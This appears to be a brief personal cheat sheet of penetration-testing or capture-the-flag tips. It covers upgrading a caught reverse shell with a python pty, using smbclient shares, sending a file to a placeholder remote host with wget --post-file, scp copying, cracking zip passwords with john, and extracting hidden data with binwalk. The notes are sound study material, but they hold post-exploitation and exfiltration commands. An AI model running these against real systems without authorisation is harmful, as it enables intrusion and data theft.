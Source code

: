 1)) If you get a reverse shell you know what that's look like without meterpreter or something. If you want to get a stable,interactive bash shell and if python is supported, then

> python -c "import pty; pty.spawn('/bin/bash')"

2)) Sometimes i get confused with smbclient. So this note is for mine.

> smbclient -L $IP$or$domain$

> smbclient \\\\\\\\$IP$or$domain$\\\\share

For downloading a file from remote server,

> get file

For uploading a file to remote server,

> put file

3)) When sending a POST request using the ' --post-file ' option, Wget treats the file as a binary file and will send every character in the POST request without stripping trailing newline or formfeed characters. Any other control characters in the text will also be sent as-is in the POST request.

> wget --post-file=file_to_post $desIP$:$PORT$

4)) scp (secure copy) command in Linux system is used to copy file(s) between servers in a secure way. The SCP command or secure copy allows secure transferring of files in between the local host and the remote host or between two remote hosts.

> scp <user@ip>:file-location destination

5)) If you have a password protected zip file,then you can use our useful friend john.

> zip2john file.zip > file.hash

> john file.hash

6)) Suppose you have a image file. As you are a hacker, you know what's that.You can extract a file or message from that image file.You can use binwalk.

> binwalk file.png

> binwalk -e file.png


